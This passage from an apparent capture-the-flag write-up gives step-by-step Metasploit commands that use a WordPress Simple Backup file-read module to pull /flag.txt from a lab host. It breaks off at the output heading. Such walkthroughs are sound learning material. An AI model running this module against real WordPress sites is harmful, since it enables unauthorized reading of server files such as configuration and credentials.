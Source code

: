 Setting depth:

From visiting the site, I can see the full url is 'http://83.136.253.249:38726/index.php/2021/02/11/hello-world/'. There are five segements seperating the pwd to the root, so the depth is five 

``` bash
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set DEPTH 5
```


Setting file path:

The descrition of the challenge is to find /flag.txt, so I'll set that as the FILEPATH

``` bash
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FIlEPATH /flag.txt
```

Setting target host (RHOST):

``` bash 
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOST 83.136.253.249
```

Setting target port (RPORT):

``` bash

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 38726

```



Setting Target URI (URI to wordpress application)
``` bash
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set TARGETURI http://83.136.253.249:38726/index.php/2021/02/11/hello-world/

```

Setting thread count 

``` bash 

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set THREADS 1

```

# Step 4  

Run the exploit

``` bash

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit

```

Output:
